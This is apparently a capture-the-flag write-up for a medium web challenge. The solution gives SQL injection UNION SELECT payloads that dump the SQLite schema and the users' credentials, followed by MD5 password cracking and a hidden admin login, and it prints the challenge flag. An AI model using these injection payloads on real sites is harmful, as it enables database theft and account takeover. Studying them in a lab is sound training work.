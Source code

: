 # web store
A newly built website has surfaced. Login as the admin to get the flag!

## Summary
+ **Author:** Koh Kai En
+ **Discord Tag:** thereconman#2688
+ **Category:** Web
+ **Difficulty:** Medium

## Solution
1. Do a SQLi attack on the front page 
    - 1 UNION SELECT sql,2,3,4 from sqlite_schema -- (this will show all the tables)
    - 1 UNION SELECT 1,username,password,4 from users -- (this will show all the credentials)
2. MD5 crack the administrator password
3. Find the hidden link (/login) to the login page
4. login and get the flag (login page cannot be bypassed)


## Flag
```
YCEP2023{SqL1_wAS_fUN_r1GHt}
```